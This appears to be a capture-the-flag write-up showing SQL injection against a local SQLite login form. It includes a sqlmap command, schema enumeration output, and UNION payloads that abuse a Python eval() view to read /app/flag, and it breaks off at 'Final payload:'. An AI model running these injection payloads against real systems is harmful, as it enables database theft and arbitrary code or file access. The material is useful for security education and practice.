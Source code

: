 ```
user@dc9342234b40:/tmp/sqlmap$ python sqlmap.py -u "http://127.0.0.1/login" --data="username=bla&password=bla" -p "password" --dbms sqlite --sql-shell
```

This finds a working UNION query and gives a SQL prompt where I can execute further commands. I enumerate the database:

```
sql-shell> select name from sqlite_master;
[15:49:28] [INFO] fetching SQL SELECT statement query output: 'select name from sqlite_master'
[15:49:28] [INFO] retrieved: 'users'
[15:49:28] [INFO] retrieved: 'v_t'
select name from sqlite_master [2]:
[*] users
[*] v_t

sql-shell> select sql from sqlite_master;
[15:49:33] [INFO] fetching SQL SELECT statement query output: 'select sql from sqlite_master'
[15:49:34] [INFO] retrieved: 'CREATE TABLE users (username text, password text)'
[15:49:34] [INFO] retrieved: 'CREATE VIEW v_t AS SELECT eval('5+3')'
select sql from sqlite_master [2]:
[*] CREATE TABLE users (username text, password text)
[*] CREATE VIEW v_t AS SELECT eval('5+3')
```

There's a users table but nothing in it. The VIEW is interesting - a VIEW is just a stored query in SQLite and here it's evaluating something which probably isn't an in-built feature of SQLite. I try running the query or creating new views but it seems sqlmap doesn't play nicely with views. So I patch the sqlmap code on the container to actually return results, but still can't get it working...

The `eval` appears to be a [SQLite extension](https://sqlite.org/src/file/ext/misc/eval.c) but I can't find many docs on it.

After a lot of fruitless searching I got a hint that the `eval` may just be a Python eval. I had tried that earlier and it seemed to error out on anything interesting I tried. It turned out I'd probably been getting the encoding wrong.

I switch SQLmap into verbose mode to capture some of the queries it was actually running; it was doing something like:

```
') UNION ALL SELECT 'qpppq'||COALESCE("eval('1+2')",' ')||'qpzxq'-- hTfB
```

and then urlencoding it. The nice thing about this query is that it will error if there's any problem with the `eval`, otherwise it will put the result in the middle of the username, or if the eval returned None then it will try to logon as the user "qpppq qpzxq" and which tells us if the eval ran successfully at least.

I just want to open the flag file:


```
') UNION ALL SELECT 'qpppq'||COALESCE("open('/app/flag').read()",' ')||'qpzxq'-- hTfB
```

Final payload:

